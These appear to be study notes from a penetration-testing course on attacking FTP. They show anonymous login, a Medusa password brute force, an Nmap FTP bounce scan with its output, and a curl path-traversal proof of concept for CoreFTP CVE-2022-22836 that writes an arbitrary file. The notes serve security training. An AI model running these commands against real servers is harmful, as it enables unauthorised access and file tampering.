 ## Enumeration

`Nmap` default scripts `-sC` includes the [ftp-anon](https://nmap.org/nsedoc/scripts/ftp-anon.html) Nmap script which checks if a FTP server allows anonymous logins. The version enumeration flag `-sV` provides interesting information about FTP services, such as the FTP banner, which often includes the version name. We can use the `ftp` client or `nc` to interact with the FTP service. By default, FTP runs on TCP port 21.

## Misconfigurations

As we discussed, anonymous authentication can be configured for different services such as FTP. To access with anonymous login, we can use the `anonymous` username and no password.

```shell-session
alakin2504@htb[/htb]$ ftp 192.168.2.142    
                     
Connected to 192.168.2.142.
220 (vsFTPd 2.3.4)
Name (192.168.2.142:kali): anonymous
331 Please specify the password.
```

## Protocol Specifics Attacks

Many different attacks and methods are protocol-based. However, it is essential to note that we are not attacking the individual protocols themselves but the services that use them. Since there are dozens of services for a single protocol and they process the corresponding information differently, we will look at some.

#### Brute Forcing

If there is no anonymous authentication available, we can also brute-force the login for the FTP services using a list of the pre-generated usernames and passwords. There are many different tools to perform a brute-forcing attack. Let us explore one of them, [Medusa](https://github.com/jmk-foofus/medusa). With `Medusa`, we can use the option `-u` to specify a single user to target, or you can use the option `-U` to provide a file with a list of usernames. The option `-P` is for a file containing a list of passwords. We can use the option `-M` and the protocol we are targeting (FTP) and the option `-h` for the target hostname or IP address.

```shell-session
alakin2504@htb[/htb]$ medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp 
                                                             
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>  
```

#### FTP Bounce Attack

An FTP bounce attack is a network attack that uses FTP servers to deliver outbound traffic to another device on the network. The attacker uses a `PORT` command to trick the FTP connection into running commands and getting information from a device other than the intended server.

Consider we are targetting an FTP Server `FTP_DMZ` exposed to the internet. Another device within the same network, `Internal_DMZ`, is not exposed to the internet. We can use the connection to the `FTP_DMZ` server to scan `Internal_DMZ` using the FTP Bounce attack and obtain information about the server's open ports. Then, we can use that information as part of our attack against the infrastructure.


The `Nmap` -b flag can be used to perform an FTP bounce attack:

```shell-session
alakin2504@htb[/htb]$ nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2

Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-27 04:55 EDT
Resolved FTP bounce attack proxy to 10.10.110.213 (10.10.110.213).
Attempting connection to ftp://anonymous:password@10.10.110.213:21
Connected:220 (vsFTPd 3.0.3)
Login credentials accepted by FTP server!
Initiating Bounce Scan at 04:55
FTP command misalignment detected ... correcting.
Completed Bounce Scan at 04:55, 0.54s elapsed (1 total ports)
Nmap scan report for 172.17.0.2
Host is up.

PORT   STATE  SERVICE
80/tcp open http

<SNIP>
```

Modern FTP servers include protections that, by default, prevent this type of attack, but if these features are misconfigured in modern-day FTP servers, the server can become vulnerable to an FTP Bounce attack.

I first scan the IP, but the NSE ftp-anon doesnt run
![[Pasted image 20250222135558.png]]

Dont know why, so I use Metasploit to check if i can login as anon![[Pasted image 20250222135628.png]]

Found 2 files
![[Pasted image 20250222135639.png]]

i then use the info to bruteforce for a ssh
![[Pasted image 20250222140735.png]]


# Latest FTP Vulnerabilities

In this case, we will discuss the `CoreFTP before build 727` vulnerability assigned [CVE-2022-22836](https://nvd.nist.gov/vuln/detail/CVE-2022-22836). This vulnerability is for an FTP service that does not correctly process the `HTTP PUT` request and leads to an `authenticated directory`/`path traversal,` and `arbitrary file write` vulnerability. This vulnerability allows us to write files outside the directory to which the service has access.

## The Concept of the Attack

This FTP service uses an HTTP `POST` request to upload files. However, the CoreFTP service allows an HTTP `PUT` request, which we can use to write content to files. Let's have a look at the attack based on our concept. The [exploit](https://www.exploit-db.com/exploits/50652) for this attack is relatively straightforward, based on a single `cURL` command.

#### CoreFTP Exploitation

```shell-session
[!bash!]$ curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
```

We create a raw HTTP `PUT` request (`-X PUT`) with basic auth (`--basic -u <username>:<password>`), the path for the file (`--path-as-is https://<IP>/../../../../../whoops`), and its content (`--data-binary "PoC."`) with this command. Additionally, we specify the host header (`-H "Host: <IP>"`) with the IP address of our target system.

#### Directory Traversal

|**Step**|**Directory Traversal**|**Concept of Attacks - Category**|
|---|---|---|
|`1.`|The user specifies the type of HTTP request with the file's content, including escaping characters to break out of the restricted area.|`Source`|
|`2.`|The changed type of HTTP request, file contents, and path entered by the user are taken over and processed by the process.|`Process`|
|`3.`|The application checks whether the user is authorized to be in the specified path. Since the restrictions only apply to a specific folder, all permissions granted to it are bypassed as it breaks out of that folder using the directory traversal.|`Privileges`|
|`4.`|The destination is another process that has the task of writing the specified contents of the user on the local system.|`Destination`|

Up to this point, we have bypassed the constraints imposed by the application using the escape characters (`../../../../`) and come to the second part, where the process writes the contents we specify to a file of our choice. This is when the cycle starts all over again, but this time to write contents to the target system.

#### Arbitrary File Write

|**Step**|**Arbitrary File Write**|**Concept of Attacks - Category**|
|---|---|---|
|`5.`|The same information that the user entered is used as the source. In this case, the filename (`whoops`) and the contents (`--data-binary "PoC."`).|`Source`|
|`6.`|The process takes the specified information and proceeds to write the desired content to the specified file.|`Process`|
|`7.`|Since all restrictions were bypassed during the directory traversal vulnerability, the service approves writing the contents to the specified file.|`Privileges`|
|`8.`|The filename specified by the user (`whoops`) with the desired content (`"PoC."`) now serves as the destination on the local system.|`Destination`|

After the task has been completed, we will be able to find this file with the corresponding contents on the target system.

#### Target System

```cmd-session
C:\> type C:\whoops

PoC.
```


